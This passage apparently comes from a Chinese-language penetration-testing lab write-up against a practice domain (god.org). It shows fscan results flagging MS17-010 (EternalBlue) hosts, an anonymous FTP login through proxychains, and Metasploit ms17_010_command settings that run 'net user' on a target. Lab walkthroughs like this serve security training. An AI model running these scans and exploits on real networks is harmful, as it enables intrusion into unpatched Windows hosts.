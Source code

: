 ```plain
   [->]stu1
   [->]192.168.52.143
   [->]169.254.129.186
   [->]192.168.82.7
[+] 192.168.52.138  MS17-010    (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] NetBios: 192.168.52.138  [+]DC owa.god.org                   Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] NetInfo:
[*]192.168.52.141
   [->]root-tvi862ubeh
   [->]192.168.52.141
[+] 192.168.52.141  MS17-010    (Windows Server 2003 3790)
[*] WebTitle: http://192.168.52.141:7002 code:200 len:2632   title:Sentinel Keys License Monitor
[*] WebTitle: http://192.168.52.143     code:200 len:14749  title:phpStudy 探针 2014
[+] ftp://192.168.52.141:21:anonymous 
[*] WebTitle: http://192.168.52.138     code:200 len:689    title:IIS7
```

### FTP 弱口令连接 (141 机器)：

```plain
proxychains ftp
ftp> open 192.168.52.141 21
Name (192.168.52.141:root): anonymous
Password:
ftp> help
```

[![](assets/1701827767-a75b8f830108e89709d2f42d9e036fea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192219-0e0a9562-9105-1.png)

### MS17-010 永恒之蓝 (141 机器)：

fscan 和 nmap 扫描发现开放 445 端口：永恒之蓝漏洞通过 TCP 的 445 和 139 端口，来利用 v1 和 NBT 中的远程代码执行漏洞，通过恶意代码扫描并攻击开放 445 文件共享端口的 Windows 主机。只要用户主机开机联网，即可通过该漏洞控制用户的主机。

```plain
use auxiliary/admin/smb/ms17_010_command
set COMMAND net user
set RHOST 192.168.52.141
exploit
```
